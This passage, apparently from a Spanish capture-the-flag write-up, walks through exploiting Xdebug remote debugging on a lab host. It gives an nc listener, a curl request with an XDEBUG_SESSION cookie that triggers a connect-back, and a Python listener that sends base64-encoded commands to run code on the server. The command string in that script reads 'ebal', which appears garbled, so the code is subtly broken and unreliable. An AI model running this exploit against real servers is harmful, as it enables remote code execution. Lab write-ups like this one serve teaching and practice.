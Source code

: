 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha en el puerto 9000

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 9000}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos un peticion GET con el XDEBUG\_SESSION en cookie

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.83/index.php"}\NormalTok{ -H }\StringTok{"Cookie: XDEBUG_SESSION=EEEEE"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Recivimos datos del lado del servidor.

\hypertarget{exploitacion-de-la-vulnerabilida}{%
\subsection*{Exploitacion de la vulnerabilida}\label{exploitacion-de-la-vulnerabilida}}

Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit\_shell.py

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ pdb}

\ImportTok{from}\NormalTok{ base64 }\ImportTok{import}\NormalTok{ b64encode}

\NormalTok{ip_port }\OperatorTok{=}\NormalTok{ (}\StringTok{'0.0.0.0'}\NormalTok{, }\DecValTok{9000}\NormalTok{)}
\NormalTok{sk }\OperatorTok{=}\NormalTok{ socket.socket()}
\NormalTok{sk.bind(ip_port)}
\NormalTok{sk.listen(}\DecValTok{10}\NormalTok{)}
\NormalTok{conn, addr }\OperatorTok{=}\NormalTok{ sk.accept()}

\ControlFlowTok{while} \VariableTok{True}\NormalTok{:}
\NormalTok{    client_data }\OperatorTok{=}\NormalTok{ conn.recv(}\DecValTok{1024}\NormalTok{)}
    \BuiltInTok{print}\NormalTok{(client_data)}

\NormalTok{    data }\OperatorTok{=} \BuiltInTok{input}\NormalTok{(}\StringTok{'>> '}\NormalTok{)}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ data.encode(}\StringTok{'utf-8'}\NormalTok{)}
\NormalTok{    conn.sendall(b}\StringTok{'ebal -i -- '} \OperatorTok{+}\NormalTok{ b64encode(data) }\OperatorTok{+}\NormalTok{ b}\StringTok{'}\CharTok{\textbackslash{}x00}\StringTok{'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
\end{document}
